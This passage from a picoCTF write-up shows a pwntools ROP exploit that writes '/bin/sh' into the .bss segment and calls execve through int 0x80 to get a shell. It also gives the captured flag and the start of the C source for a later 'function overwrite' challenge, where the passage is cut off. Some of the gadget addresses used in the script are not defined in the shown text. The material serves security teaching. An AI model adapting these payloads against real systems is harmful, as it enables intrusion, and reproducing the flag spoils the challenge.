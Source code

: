 ```python
int_80_addr = 0x804a3d2
read_addr = 0x806ecf0
vuln_addr = 0x8049d95
bss_addr = 0x80e62f0

# Step 1: read '/bin/sh' into bss segment and return to vuln() function
payload = cyclic(28)
payload += p32(read_addr) + p32(vuln_addr) + p32(0) + p32(bss_addr) + p32(100)

io.sendlineafter(b'grasshopper!', payload)

payload = b'/bin/sh\x00'
io.sendline(payload)

# Step 2: use 'int 80' to call SYS_execve, set argument as:
# eax = 0xb
# ebx = '/bin/sh' address
# ecx = edx = 0
payload = cyclic(28)
payload += p32(pop_eax_addr) + p32(0xb)
payload += p32(pop_edx_ebx_addr) + p32(0) + p32(bss_addr)
payload += p32(pop_ecx_addr) + p32(0)
payload += p32(int_80_addr)

io.sendlineafter(b'grasshopper!', payload)

io.interactive()
```

picoCTF{5n47ch_7h3_5h311_e81af635}

# 12. function overwrite

源码：

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
```